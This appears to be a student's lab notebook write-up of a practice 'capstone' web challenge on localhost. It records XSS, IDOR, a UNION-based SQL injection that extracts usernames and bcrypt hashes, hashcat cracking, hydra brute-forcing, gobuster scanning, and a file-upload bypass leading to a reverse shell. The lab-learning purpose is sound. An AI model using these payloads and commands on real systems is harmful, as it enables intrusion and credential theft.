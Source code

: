 - Challenge: **Find as many impactful vulnerabilities as you can and find information.**

# DOM and stored XSS
---
- Signup and login as normal user
- Add a comment:
	- `<H1> HI </H1>`
	- ![[Pasted image 20250407170712.png]]
	- ![[Pasted image 20250407171125.png]]
- In `message` parameter:
	- ![[Pasted image 20250408033438.png]]

# IDOR
---
- ![[Pasted image 20250407171211.png]]


# Something
---
![[Pasted image 20250407171914.png]]

# Bad design (modifiable fixed input)
---
![[Pasted image 20250408033718.png]]
![[Pasted image 20250408033733.png]]

# SQL Injection in `coffee.php?coffee=` parameter
---
![[Pasted image 20250408040925.png]]
- `No coffee` found means injection didn't work, but it works:
	- ![[Pasted image 20250408041317.png]]
- Extract data: 7 columns:
	- ![[Pasted image 20250408041605.png]]
	- Usernames: `'UNION+SELECT+NULL,NULL,NULL,NULL,NULL,username,NULL+from+users%23 `
		- ![[Pasted image 20250408041856.png]]
	- List of users:
		- `jeremy,jessamy,raj,bob,maria,amir,xinyi,kofi`
	- List of password hashes:
	`'UNION+SELECT+NULL,NULL,NULL,NULL,NULL,username,NULL+from+password%23 `

		```
		$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy
		$2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS
		$2y$10$cCXaMFLC.ymTSqu1whYWbuU38RBN900NutjYBvCClqh.UHHg/XfFy
		$2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC
		$2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi
		$2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW
		$2y$10$37gojoTFmj86E6NbENGg9e2Xu2z6OKKSgnjYxDkXJn/8dvSk2tKfG
		$2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3.
		$2y$10$HBY/B4PCvsp4RR5HwKhUde5BaS7rQOX1yGmqfkXN9uq7/DQZZuyR2
		$2y$10$aWu4cu6YPfhpmSZcii9PRuY39sVU1tq7URmf198arbvQe0Gz.7.UK
		```
# Weak passwords
---
- Cracking the passwords hashes:
	- `hashcat hashes.txt passwords.txt -m 3200` => bcrypt (O.S)
		- ![[Pasted image 20250408042943.png]]
- Found later:
	- `5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3.:paris`
- ==**Found `jeremy`'s password using only `hashcat`'s GPU cracking**==:
	- ![[Pasted image 20250408112205.png]]
	- `captain1`
# Bruteforce
---
- Using `hydra` as it can **follow redirects**:
	- `hydra -L usernames.txt  -P passwords.txt localhost  http-post-form "/capstone/auth.php:username=^USER^&password=^PASS^&auth=login:F=Login failed" -v -t 64`
		- ![[Pasted image 20250408112449.png]]

# Gobuster for directory bruteforce
---
`gobuster dir -u http://localhost/capstone/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -n -x php,txt,zip `
![[Pasted image 20250408043357.png]]

# Admin Panel (Using `jeremy : captain1`):
---
![[Pasted image 20250408112649.png]]

# File Upload Vulnerability
----
- Uploading a normal `php` file throws error `Please upload a png file`
	- ![[Pasted image 20250408120702.png]]
- How about we add `png` magic bytes in a shell?
	- ![[Pasted image 20250408120739.png]]
	- ==**Generally, only the upper text is needed, but in this challenge, adding the lower one was also required (this was form boundry :P)**==
	- And this was uploaded `successfully`
- Finding the uploaded shell
	- This was the image of `coffee`, so we can look at where other `coffee` bean images are located from UI:
		- ![[Pasted image 20250408120935.png]]
	- These are **ordered, based on uploads**
	- My file was `19.php` (Note:- **Server only renames file name, not extension**)
		- ![[Pasted image 20250408121043.png]]
	- Let's get a reverse shell:
		- ![[Pasted image 20250408121156.png]]
		- ![[Pasted image 20250408121206.png]]
		- ![[Pasted image 20250408121225.png]]